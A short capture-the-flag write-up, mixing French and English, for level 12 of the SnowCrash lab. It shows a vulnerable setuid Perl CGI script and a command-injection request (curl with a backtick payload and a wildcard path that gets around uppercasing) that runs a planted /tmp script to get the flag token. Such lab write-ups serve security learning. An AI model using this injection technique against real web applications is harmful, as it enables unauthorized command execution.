 # Level 12

</br></br>

## check file level 12

```zsh
level12@SnowCrash:~$ ls -al
total 16
dr-xr-x---+ 1 level12 level12  120 Mar  5  2016 .
d--x--x--x  1 root    users    340 Aug 30  2015 ..
-r-x------  1 level12 level12  220 Apr  3  2012 .bash_logout
-r-x------  1 level12 level12 3518 Aug 30  2015 .bashrc
-rwsr-sr-x+ 1 flag12  level12  464 Mar  5  2016 level12.pl
-r-x------  1 level12 level12  675 Apr  3  2012 .profile
level12@SnowCrash:~$ ./level12.pl
Content-type: text/html

..level12@SnowCrash:~$ cat level12.pl
#!/usr/bin/env perl
# localhost:4646
use CGI qw{param};
print "Content-type: text/html\n\n";

sub t {
  $nn = $_[1];
  $xx = $_[0];
  $xx =~ tr/a-z/A-Z/;
  $xx =~ s/\s.*//;
  @output = `egrep "^$xx" /tmp/xd 2>&1`;
  foreach $line (@output) {
      ($f, $s) = split(/:/, $line);
      if($s =~ $nn) {
          return 1;
      }
  }
  return 0;
}

sub n {
  if($_[0] == 1) {
      print("..");
  } else {
      print(".");
  }
}

n(t(param("x"), param("y")));
```

Étant donné que c'est un CGI, il est nécessaire de créer un script

</br></br>

## make CGI file

```zsh
level12@SnowCrash:~$ vim /tmp/GETFLAG
level12@SnowCrash:~$ cat /tmp/GETFLAG
#!/bin/bash
getflag > /tmp/flag12
level12@SnowCrash:~$ chmod +x /tmp/GETFLAG
```

dans le pl script, le nom de fichier est changé en mascule.
donc, on doit créer le fichier en mascule et avec "backtick" et avec "systemcall" dans le code ou script,
on peut executer la commande

</br></br>

## execute

connect to

> curl 'http://127.0.0.1:4646/?x="`/*/GETFLAG`"'

```zsh
level12@SnowCrash:~$ cat /tmp/flag12
Check flag.Here is your token : g1qKMiRpXf53AWhDaU7FEkczr
level12@SnowCrash:~$ su level13
Password:
level13@SnowCrash:~$
```
